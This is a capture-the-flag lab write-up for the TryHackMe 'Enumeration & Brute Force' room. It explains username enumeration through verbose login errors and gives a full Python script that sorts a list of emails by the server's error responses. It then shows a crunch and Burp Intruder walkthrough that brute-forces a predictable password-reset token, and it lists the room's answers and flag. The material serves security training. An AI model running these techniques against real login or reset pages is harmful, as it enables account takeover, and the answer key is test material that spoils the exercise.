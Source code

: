 # Enumeration & Brute Force

**URL:** https://tryhackme.com/r/room/enumerationbruteforce

## Authentication Enumeration
In order to perform the brute force attacks, we must first figure out the authentication mechanism. The goal is to learn how everything is conncected, providing a blueprint for potential attacks.
  1. We must identify valid usernames or emails
  2. Identify passwords policies
These are the two main things we need to focus for the enumeration processes.
THere are several places to look for:

**Registration page**
- This is where we can enumerate both usernames and passwords policies. If a username has already existed, the application will prevent us from registering a new user using that same username.
- Similarly, we can find out password policies by trying different combinations. The errors displayed by the applications provide us with the password policies

**Password reset features**
- Password reset mechanisms are implemented differently on various applications. Some unintentional behavior / misconfiguration may provide sensitive information. For example, like registration page, when trying to reset password for a non-existing user, the application may display an error stating the user does not exist. We can leverage this message to exploit usernames (as existing users won't display these kinds of messages).

**Verbose error**
- These are errors messages displayed when users interact with the applications. "Users not found", "invalid token", "incorrect passwords" are amongst the most commonly used, which allows attackers to gain more information about the authentication process.

To enumerate the email:
1. Create a Python script `script.py`

```python
import requests
import sys

def check_email(email):
    url = 'http://enum.thm/labs/verbose_login/functions.php'  # Location of the login function
    headers = {
        'Host': 'enum.thm',
        'User-Agent': 'Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0',
        'Accept': 'application/json, text/javascript, */*; q=0.01',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
        'X-Requested-With': 'XMLHttpRequest',
        'Origin': 'http://enum.thm',
        'Connection': 'close',
        'Referer': 'http://enum.thm/labs/verbose_login/',
    }
    data = {
        'username': email,
        'password': 'password',  # Use a random password as we are only checking the email
        'function': 'login'
    }

    response = requests.post(url, headers=headers, data=data)
    return response.json()

def enumerate_emails(email_file):
    valid_emails = []
    invalid_error = "Email does not exist"  # Error message for invalid emails

    with open(email_file, 'r') as file:
        emails = file.readlines()

    for email in emails:
        email = email.strip()  # Remove any leading/trailing whitespace
        if email:
            response_json = check_email(email)
            if response_json['status'] == 'error' and invalid_error in response_json['message']:
                print(f"[INVALID] {email}")
            else:
                print(f"[VALID] {email}")
                valid_emails.append(email)

    return valid_emails

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python3 script.py <email_list_file>")
        sys.exit(1)

    email_file = sys.argv[1]

    valid_emails = enumerate_emails(email_file)

    print("\nValid emails found:")
    for valid_email in valid_emails:
        print(valid_email)
```

2. Download the email list from this [repository](https://github.com/nyxgeek/username-lists/blob/master/usernames-top100/usernames_gmail.com.txt)
3. Run the script against the downloaded text file in step 2
```bash
python3 script.py usernames_gmail.com.txt
```
And we found the email.

**- What type of error messages can unintentionally provide attackers with confirmation of valid usernames?**

`-> Verbose error`

**- What is the valid email address from the list?**

`-> canderson@gmail.com`

## Exploit vulnerability password reset logic
- Go to `http://enum.thm/labs/predictable_tokens/forgot.php` and submit a password reset for `admin@admin.com`
- Create an `otp.txt` file to bruteforce the token
```bash
crunch 3 3 -t %%% -s 100 -e 200 -o otp.txt
```
- Make a GET request to `http://enum.thm/labs/predictable_tokens/reset_password.php?token=123` and intercept the request using BurpSuite and send it to Intruder
- In Burp Suite, set the position `123` to be brute-forced
  
![image](https://github.com/user-attachments/assets/4b5e054d-d61c-4cbe-b5e6-c77793d2d68d)

- In the **Payloads** tab, load the `otp.txt` created in the previous step

  ![image](https://github.com/user-attachments/assets/e227b679-6b35-4458-b1ca-964f1315134e)

- In the **Settings** tab, add "Ivalid token" error message to filter the request that doesn't contain that message. This helps use quickly identify the valid token

![image](https://github.com/user-attachments/assets/3013ba97-9f22-4cfd-8fd6-2026c616a7d0)

- Once the valid token is found, view the Response body, which provides the new password for `admin@admin.com`. Use it to log in and retrieve the flag.

**- What is the flag?**

`-> THM{50_pr3d1ct4BL333!!}`
